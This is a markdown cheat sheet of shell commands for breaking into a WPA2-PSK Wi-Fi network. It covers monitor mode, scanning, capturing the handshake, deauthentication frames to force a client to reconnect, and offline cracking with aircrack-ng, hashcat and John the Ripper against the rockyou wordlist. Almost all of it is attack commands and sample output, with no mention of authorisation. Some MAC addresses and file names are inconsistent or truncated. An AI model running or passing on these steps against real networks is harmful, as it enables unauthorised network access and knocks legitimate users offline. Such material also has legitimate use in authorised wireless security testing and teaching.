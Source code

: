 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

#### Set channel if needed
```text
iw wlan0mon set channel 7
```

### Check for networks with WPA available (normally WPA CCNP PSK)
```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
30:94:8F:E8:89:5F  -25      240      131    0   6  130   WPA2 CCMP   PSK  linksys

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
30:94:8F:E8:89:5F  E4:84:D3:2E:1F:22  -38    1e- 1e   948      265
```

### Monitor/grab packets and wait for the handshake
```text
sudo airodump-ng -c 6 --bssid 30:94:8F:E8:89:5F -w file wlan0mon
```

### De-auth for a seprate channel to spead up / bute force the handshake
```text
sudo aireplay-ng -0 1 -a 30:94:8F:E8:89:5F -c E4:84:D3:2E:1F:42 wlan0
```

### once handshake has been collected ....


### Review packets captured
```text
aircrack-ng file-01.cap
```
```text
#  BSSID              ESSID                     Encryption
1  30:94:8F:E8:89:5F  linksys                WPA (1 handshake)
```

### Tidy up cap file and reduce size
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 30:94:8F:E8:89:5F" -2 -w out.cap -F pcap
```
### Review output file
```text
aircrack-ng out.cap
```

### Cracking

```text
locate rockyou.txt

aircrack-ng -a2 -b 10:27:F5:66:BE:27 -w rockyou.txt out.cap

0:27:F5:66:BE:27
```
#### Or a faster way to crack

```text
22000 | WPA-PBKDF2-PMKID+EAPOL
22001 | WPA-PMK-PMKID+EAPOL
```

```text
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hc2200.txt rockyou.txt
```

#### or ....

```text
hccap2john out.cap > hc2200.txt
john --wordlist=rockyou.txt --format=wpapsk hc2200.txt 
```



https://charlesreid1.com/wiki/John_the_Ripper/WPA
https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2












